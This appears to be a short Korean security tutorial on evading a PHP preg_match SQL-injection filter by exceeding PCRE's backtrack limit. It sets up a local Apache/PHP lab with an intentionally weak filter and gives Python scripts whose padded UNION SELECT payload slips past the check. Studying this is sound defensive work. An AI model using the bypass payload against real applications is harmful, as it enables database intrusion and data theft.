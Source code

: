 # PCRE Bypass

[PCRE](#https://ko.wikipedia.org/wiki/%ED%8E%84_%ED%98%B8%ED%99%98_%EC%A0%95%EA%B7%9C_%ED%91%9C%ED%98%84%EC%8B%9D)(Perl Compatible Regular Expressions)의 검사 수 제한을 이용하여 우회

# **INDEX**

**1. [환경 구성](#환경-구성)**

**2. [preg_match](#preg_match)**

# **환경 구성**

| Type          | Version                   |
| :---          | :---                      |
| OS            | Ubuntu 20.04.3 LTS        |
| Architecture  | x86-64                    |
| IP            | 192.168.0.58              |
| apache2       | 2.4.41-4ubuntu3.10        |
| php           | 7.4.3                     |

apache와 php를 사용하기 위해 관련 패키지를 설치하자.

```sh
root@ubuntu:~# apt -y install apache2 php
```

preg_match를 이용하여 SQLi를 방어하는 코드를 적용하였다.

```php
<?php
if(preg_match('/UNION.+?SELECT/i', $_POST['sql'])) die('SQL Injection');
else echo "pass";
?>
```

pcre의 최대 검사 수를 확인해보자.

```sh
user@user:/var/www/html$ php -r "var_dump(ini_get('pcre.backtrack_limit'));"
string(7) "1000000"
```

# **preg_match**

다음의 sql문을 전달하면 preg_match에 의해서 if문으로 들어간다.

```python
import requests

url = 'http://192.168.108.174/index.php'
data = {'sql': 'UNION SELECT id,pw FROM USER -- '}
res = requests.post(url=url, data=data)
print(res.text)
```

하지만 backtrack_limit 보다 큰 데이터를 전송하면 preg_match의 결과가 false(0)으로 반환되어 else문으로 우회할 수 있다.

```python
import requests

url = 'http://192.168.108.174/index.php'
data = {'sql': 'UNION /*'+'a'*1000000+'*/ SELECT id,pw FROM USER -- '}
res = requests.post(url=url, data=data)
print(res.text)
```